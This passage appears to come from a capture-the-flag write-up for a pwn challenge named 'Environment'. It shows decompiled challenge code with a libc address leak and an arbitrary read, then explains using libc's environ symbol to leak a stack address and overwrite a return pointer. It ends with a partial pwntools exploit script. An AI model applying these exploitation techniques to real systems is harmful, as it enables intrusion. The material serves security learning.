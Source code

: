 ```
  if (rec_count < 5) {
    color("Thank you very much for participating in the recycling program!\n","magenta");
  }
  else {
    if (rec_count < 10) {
      color("You have already recycled at least 5 times! Please accept this gift: ","magenta");
      printf("[%p]\n",printf);
    }
    else {
      if (rec_count == 10) {
        color("You have recycled 10 times! Feel free to ask me whatever you want.\n> ","cyan");
        read(0,local_28,0x10);
        __s = (char *)strtoull(local_28,(char **)0x0,0);
        puts(__s);
      }
    }
  }
```
When thinking this challenge, I eventually decided that overwriting the return pointer directly was the way to go on this one. There is a technique to overwrite the GOT table with Full RELRO enabled using a malloc hook (see here for more on that: https://made0x78.com/bseries-fullrelro/) but I decided that I didn't seem to have the necessary components to make that work, plus it had nothing to do with the seeming hint of a title like "Environment". 

After some time, I discovered an excellent technique that was clearly perfect based on what we have already learned (Thank you Naetw, see here: https://github.com/Naetw/CTF-pwn-tips#leak-stack-address). Basically, there is a symbol called environ in libc that points to the location of the environment variable in your program, which is located on the stack. This means that I can derive the address of environ in libc based on the printf leak, then leak its contents to get a stack leak. Then I just need to figure out the offset from the leak to the actual return (this is fairly straightforward in GDB), and I'll be able to overwrite its contents to the address of hidden_resources() by using the plant function. The full exploit script is below:
```
from pwn import *

target = process('./environment', env={"LD_PRELOAD":"./libc.so.6"})
#target = remote('165.227.231.249', 30917)

pid = gdb.attach(target, "\nb *plant+240\nb *form+316\n set disassembly-flavor intel\ncontinue")



elf = ELF("environment")
libc = ELF("libc.so.6")
#Gadgets:

hidden_resources = 0x004010b5

def recycle_no():
	print(target.recvuntil(b'2. Recycle'))
	target.sendline(b'2')
	print(target.recvuntil(b'What do you want to recycle?'))

	target.sendline(b'1')
	print(target.recvuntil(b'Is this your first time recycling? (y/n)'))
	target.sendline(b'n')
	
for i in range(5):
	recycle_no()

print(target.recvuntil(b' Please accept this gift: \x1b[0m['))
leak = target.recvuntil(b']\n\x1b')
printf_libc_str = leak.replace(b']\n\x1b', b'')

```